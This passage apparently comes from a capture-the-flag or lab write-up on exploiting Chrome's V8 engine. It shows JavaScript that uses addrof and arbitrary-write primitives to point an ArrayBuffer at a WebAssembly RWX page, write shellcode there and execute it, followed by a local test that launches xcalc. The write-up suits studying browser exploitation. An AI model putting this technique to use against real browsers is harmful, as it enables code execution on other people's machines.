```javascript

var array_buffer = new ArrayBuffer(shellcode_size);
var dataview = new DataView(array_buffer);

// Get the address of where our shellcode is in memory
var array_buffer_addr = addrof(array_buffer) & 0xffffffffn;

console.log("[+] array buffer page addr: 0x" + array_buffer_addr.toString(16));

// Write the address of our shellcode to the address that points to the RWX page, so we gain control
arb_write(array_buffer_addr + 0x14n, rwx_page_addr);

console.log("[+] arbitrary write complete, going to write shellcode to dataview");

for (let byte = 0; byte < shellcode.length; byte++) {
    // write out the shellcode into the array_buffer
    dataview.setUint8(byte, shellcode[byte], true);
}

// Tell the Wasm VM to jump to main().
console.log("[+] Calling it!");

wasm_main();
```

So, lets put the whole thing together, from the arrays and objects we're going to abuse, our primitive functions, and our WebAssembly, and stick it in an innocently-named file called `exploit.js` because sometimes the Blue Team have it too hard.


## Test Exploitation

Before we try this for real, we definitely want to test it on ourselves. That's easy enough with the compiled version of Chrome we downloaded from the site, or if we choose to not trust the binary we downloaded from this hacker's server (...) we could [compile it ourselves](https://chromium.googlesource.com/chromium/src/+/master/docs/linux/build_instructions.md).

We don't even need to XSS ourselves, we can just create and open a basic HTML file from disk that calls our final copy of `exploit.js`. When we open the file, we see that our computer ran xcalc! Let us be sure to load up our top secret *hacker tools* to check the progress of what's going on:

![Image of Chrome context menu](hackertools.png "Right Click -> Inspect Element, all you need to hack the planet")
